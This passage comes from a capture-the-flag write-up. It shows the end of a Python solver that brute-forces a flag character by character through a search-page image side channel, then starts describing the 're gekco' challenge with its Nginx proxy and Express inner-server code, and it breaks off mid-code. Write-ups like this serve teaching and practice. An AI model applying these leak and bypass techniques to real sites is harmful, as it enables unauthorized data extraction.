 ```python:solver.py
    else:
        break
    
token = known
known = "W1{"

while True:
    for i in range(10):
        r = s.get(URL + "search", params={
            "token": token,
            "k": known + str(i),
            "img": "troll.jpg"
        })
        if '<img id="customImage" src="" loading="lazy"/>' in r.text:
            known += str(i)
            print(known)
            break
    else:
        break
```

## ✅ re gekco (491pts 7 solves)

### Overview

There are three virtual servers running:

1. Proxy server (port 80)
    * Runs on Nginx
    * If the path matches `~* ^(.*)$`, it returns `i catch you!`
    * If the path matches `/firefly`, it is proxied to inner server.
    ```nginx
    server {
        listen 80;
        server_name _;

        location ~* ^(.*)$ {
            return 200 "i catch you!";
        }

        location / {
            add_header X-Original "$uri";
            return 200 "I Catch You!";
        }

        location /firefly {
            proxy_pass http://@inner$uri$is_args$args;
        }
    }
    ```
2. Inner server (port 3000)
    * Runs on express
    * If the path doesn't match `^[A-z0-9.\s_-]+$`, it returns an error.
    * Otherwise, it is proxied to Re-Gecko server.
    * It removes the word `flag` using `path.replace(re, "");`
    ```javascript:inner/index.js
    app.all("*", async (req, res) => {
        try {
            var { method, path, body, headers } = req;
            console.log(method, path, body, headers);
            console.log(path);
            path = path.startsWith("/") ? path.slice(1) : path;
            console.log(path);
            const checkvar = (path) => {